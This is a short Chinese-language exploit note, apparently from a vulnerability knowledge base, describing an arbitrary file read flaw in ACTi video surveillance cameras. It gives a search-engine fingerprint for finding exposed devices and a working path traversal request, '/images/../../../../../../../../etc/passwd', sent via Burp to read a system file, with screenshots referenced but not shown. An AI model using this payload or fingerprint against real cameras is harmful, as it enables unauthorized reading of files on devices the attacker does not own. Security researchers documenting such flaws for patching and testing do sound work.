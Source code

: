 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>ACTI摄像头</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACTi-视频监控"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ac-1.png)



使用Burp抓包



```plain
/images/../../../../../../../../etc/passwd
```



![img](../../../.vuepress/public/img/ac-2.png)